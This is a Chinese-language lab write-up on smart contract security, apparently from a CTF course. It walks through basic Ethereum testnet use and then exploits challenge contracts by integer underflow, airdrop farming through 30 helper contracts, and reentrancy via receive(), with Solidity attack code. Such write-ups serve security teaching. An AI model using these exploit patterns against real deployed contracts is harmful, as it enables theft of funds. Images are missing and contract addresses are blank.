

# 智能合约安全基础

## 以太坊区块链的基本操作

### 前期准备

  

### 切换网络并获取测试币

 

### 发送交易

 \ 

 

 

 

```
hash:0x6e53869ab820226cc5fe3cc4fc5fd413e643df044fb480dcc31e64e7e14171be
```


## 以太坊智能合约基础

#### 编写与编译合约

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.28;

contract SimpleContract {
    uint256 public number;
    constructor() {
        number = 1; 
    }
    function set(uint256 x) public {
        number = x;
    }
    function get() public view returns (uint256) {
        return number;
    }
}
```

 

#### 部署合约及调用

  


  

#### holesky 测试链上部署

  


 


- **合约地址**

```
0x
```


## 整型溢出漏洞利用 

首先，获取合约地址并发起交互。


 

​	对合约调用`init`交易后，`balances[msg.sender]`的值被设定为20。

​	由于`balances[msg.sender]`的类型为`uint256`，因此，只需将`_value`参数设为21并调用`transfer`交易，便可以使`balances[msg.sender]`溢出为补码-1，在`uint256`类型下即为一个非常大的整数。

​	然后调用`win`交易，即可通过`require(balances[msg.sender] > 20)`条件，触发`emit SendFlag()`，获取flag。

 


- **合约地址**

```
0x
```


## 薅羊毛攻击

​	建立两个合约`attack`和`middle_attack`。	

​	其中`middle_attck`用于调用原`AirDrop`合约，利用`profit`函数获取代币并把代币转交给调用它的地址。`attack`为总体控制的交易，在`attack`中调用`attack_airdrop`函数，循环创建了30次`middle_attack`交易，并将每次获取的20个代币汇总到`attack`所在的地址。理论上这里会获取600个代币，然后在`attack`中调用`get_flag`函数，此时检测到`attack`地址的代币超过了500个，于是触发了flag。

```solidity
contract attack{
    function attack_airdrop() public {
        for(uint i = 0; i < 30; i++){
            new middle_attack(address(this));
        }
    }

    function get_flag() public {
        AirDrop target = AirDrop(0x3CD57859d0d6497f8A5560E088fb1BDc60A58001);
        target.getFlag();
    }
}

contract middle_attack{
    constructor(address addr){
        AirDrop target = AirDrop(0x3CD57859d0d6497f8A5560E088fb1BDc60A58001);
        target.profit();
        target.transfer(addr,20);
    }
}

```

 

- **合约地址**

```
0x
```


## 重入攻击

​	建立`Attack`并部署合约，首先对`Attack`合约的地址进行`donate`操作，即使该地址的`balances`值不为0，以便于后续调用`withdraw`函数。

 

​	在`Attack`中对`receive()`进行编辑，使之能够再次触发`withdraw`函数。

​	那么，在调用`attack`函数后，目标合约将调用`withdraw`函数，完成取钱操作，并把控制流交给`receive`，然后`receive`将再次调用`withdraw`函数，使得达到循环取钱的操作，直到合约的代币被取完，`withdraw`函数将运行到底，完成`balance`的修改，到达这一步，即攻击目的已达成。

```solidity
contract Attack{
    Reentrance Contract;
    constructor(address payable _address){
        Contract=Reentrance(_address);
    }

    function attack() public{
        Contract.withdraw(0.001 ether);
    }

    receive() external payable {
        Contract.withdraw(0.001 ether);
    }
}
```

 

- **合约地址**

```
0x
```

